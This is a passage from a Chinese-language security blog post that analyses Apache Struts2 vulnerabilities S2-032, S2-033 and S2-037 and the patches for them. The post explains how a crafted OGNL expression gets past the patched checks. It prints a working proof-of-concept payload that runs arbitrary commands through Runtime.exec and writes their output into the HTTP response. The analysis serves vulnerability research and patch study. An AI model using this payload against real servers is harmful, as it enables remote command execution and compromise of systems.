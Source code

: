 这里我们执行的命令用`#parameters.command[0]`的方式来获取，这是因为在生成`DefaultActionProxy`的时候对methodName做了转义处理，为了避免转义破坏OGNL表达式，用`#parameters`的方式从参数中获取。

还有一个需要注意的地方是，在最后调用`ognlUtil.getValue`时，在methodName后面拼接了`()`，我们需要将这个`()`做处理，比如这里的POC做的处理是`#xx.toString`去吃掉这个`()`

### S2-032/S2-033修复

![image-20200520230704180](/images/talk_about_struts2/image-20200520230704180.png)

`xwork-core:2.3.28.1`在`OgnlUtil.isEvalExpression`增加了`isSequence`的判断

这里出现了新的一种利用方式`(1)?(2):(3)`，这种形式的OGNL表达式将有`ASTTest`对象来处理

而`isEvalChain()`和`isSequence()`限制的是`ASTEval`和`ASTSequence`对象，这里并没有对ASTTest做限制，并且由于`isSequence`并不是递归去判断的，所以在`ASTTest`的children节点上再出现`ASTSequence`也是ok的

根据这个原理，我们可以写出新的POC

```java
(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)?(#process=@java.lang.Runtime@getRuntime().exec(#parameters.command[0]),#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()),@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros),#ros.flush()):d.json
```

### S2-037修复

![image-20200520233839824](/images/talk_about_struts2/image-20200520233839824.png)

在解析`name!method`的地方，调用了`cleanupActionName`

![image-20200520233957407](/images/talk_about_struts2/image-20200520233957407.png)

